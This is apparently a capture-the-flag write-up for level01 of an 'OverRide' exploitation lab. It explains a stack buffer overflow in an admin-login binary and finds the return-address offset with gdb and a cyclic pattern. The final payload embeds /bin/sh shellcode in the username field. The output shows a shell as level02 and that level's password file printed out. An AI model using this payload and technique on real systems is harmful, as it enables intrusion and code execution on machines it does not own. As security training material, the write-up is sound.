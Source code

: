 Here the vulnerable function is the second fgets which gets 100 characters in a 16 characters input buffer. We do not have a call to system in the program so we have to place a shellcode in executable memory first. The machine has no NX so we can place the shellcode everywhere but the easiest address to get is the address of the global variable a_user_name. We can easily get it using ltrace :

```bash
level01@OverRide:~$ ltrace ./level01
__libc_start_main(0x80484d0, 1, -10284, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...********* ADMIN LOGIN PROMPT *********
)      = 39
printf("Enter Username: ")                       = 16
fgets(Enter Username: dat_wil
"dat_wil\n", 256, 0xf7fcfac0)              = 0x0804a040
puts("verifying username....\n"verifying username....

)                 = 24
puts("Enter Password: "Enter Password: 
)                         = 17
fgets(toto
"toto\n", 100, 0xf7fcfac0)                 = 0xffffd6ec
puts("nope, incorrect password...\n"nope, incorrect password...

)            = 29
+++ exited (status 1) +++
```

The address of a_user_name global variable is 0x0804a040. However, to pass the if statement we need the user name to start with dat_wil. Thus the first input will have to be "dat_wil" + the address of the shellcode and the second one will be the characters to overflow into EIP (since this is the vulnerable function) and write the address of the shellcode there which will be 0x0804a040 + 7 because dat_wil is 7 characters => 0x0804a047

To find the offset to the EIP pointer, we use a cyclic string generated with this website https://wiremask.eu/tools/buffer-overflow-pattern-generator/

With the cyclic we find that the offset by running the program in gdb.
```bash
level01@OverRide:~$ echo "dat_wil" > /tmp/in01
level01@OverRide:~$ echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag" >> /tmp/in01
level01@OverRide:~$ gdb level01 -q
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.
(gdb) run < /tmp/in01
Starting program: /home/users/level01/level01 < /tmp/in01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

By looking at the string or just putting the segfault address in the cyclic generator tool, we get 80 characters offset

Final cooked payload :

```bash
(python -c 'print "dat_wil\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\x31\xd2\xcd\x80"'; python -c 'print "N" * 80 + "\x47\xa0\x04\x08"'; cat) | ./level01
```

And then...

```bash
level01@OverRide:~$ (python -c 'print "dat_wil\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\x31\xd2\xcd\x80"'; python -c 'print "N" * 80 + "\x47\xa0\x04\x08"'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```